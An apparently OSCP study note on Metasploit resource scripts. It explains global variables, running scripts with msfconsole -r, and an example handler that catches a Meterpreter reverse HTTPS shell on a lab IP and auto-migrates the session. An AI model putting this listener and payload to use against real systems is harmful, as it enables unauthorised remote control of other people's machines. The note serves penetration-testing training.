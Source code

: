 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/11. Metasploit Framework/7. Automated Resource Scripts/"}
---
```


----------------
- Set global variables in MSF:
```
setg LHOST <ip>

unsetg LHOST
```

- Pre-configured Metasploit resource scripts:
	/usr/share/metasploit-framework/scripts/resource

- Run resource scripts written in Ruby:
```
sudo msfconsole -r script.rc
```

- Example-script:
	- run -z stops from automatically interacting with session
	- ExitOnSession closes listener on opened session
	- migrate module migrates to notepad.exe as default
```
#Set up listener
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443

#Run when session is opened
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```
